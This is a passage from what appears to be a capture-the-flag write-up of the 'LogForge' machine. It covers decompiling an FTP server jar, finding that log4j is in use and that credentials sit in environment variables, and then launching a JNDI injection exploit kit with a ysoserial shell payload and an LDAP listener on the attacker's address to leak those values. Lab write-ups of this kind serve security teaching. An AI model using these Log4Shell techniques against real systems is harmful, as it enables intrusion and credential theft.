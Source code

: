 Now in your terminal type jd-gui to open the application. Then from the file menu choose Open File and pick the ftpServer-1.0-SNAPSHOT-all.jar we copied across:

![logforge-jdgui](/assets/images/2022-01-03-21-14-27.png)

Looking around there are two interesting things we see. Firstly it's clear log4j is used in this FTP server for logging as you can see the many configuration files and references to it within the classes. Secondly in the worker class we see this:

![logforge-ftpserver-jar](/assets/images/2022-01-03-21-18-09.png)

This tells us validUser and validPassword are held in environmental variables called ftp_user and ftp_password. [This](https://www.tutorialspoint.com/java/lang/system_getenv_string.htm) is a good article that explains how environmental variables work in Java.

## FTP JNDI Exploit 1

We can use the JNDI exploit kit as before to take advantage of this to expose the values of the variables. Check if it's still running, if not start it again:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -P ysoserial-modified/target/shell.ser -L 10.10.14.12:389
```
